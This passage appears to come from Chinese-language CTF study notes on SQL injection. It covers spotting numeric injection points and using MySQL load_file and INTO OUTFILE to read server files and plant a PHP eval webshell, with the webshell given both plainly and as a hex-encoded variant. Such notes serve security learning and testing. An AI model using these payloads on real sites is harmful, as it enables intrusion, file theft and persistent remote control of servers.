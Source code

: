 2. 数值型判断
通过`and 1=1`（数值型）或者'and `'1'='1`（字符串型）
3. 通过数字的加减进行判断
例如`?id=3`，尝试`?id=3-1`和`?id=2`是否相同判断该注入点是否为数值型
### 5.15 SQL读写文件
在拥有file权限之后可以通过load_file和into outfile/dumpfile进行读写
`?id=-1+union+select+load_file('/etc/hosts')`
若需绕过单引号则可将load_file函数中的参数替换为十六进制
如果给出了flag的位置则读该文件，若无则读敏感文件MySQL配置文件、apache配置文件、.bash_history等
可以考虑用sql写文件包括但不限于webshell、计划任务
`?id=-1+union+select+'<?php eval($_POST['shell']);?>'+into+outfile '/var/www/html/shell.php'`
`?id=-1+union+select+unhex(0x3c3f706870206576616c28245f504f53545b277368656c6c275d293b3f3e)+into+dumpfile '/var/www/html/shell.php'`
==尝试写入一个已存在的文件会报错==
权限足够高还可以写入UDF库进一步扩大攻击面
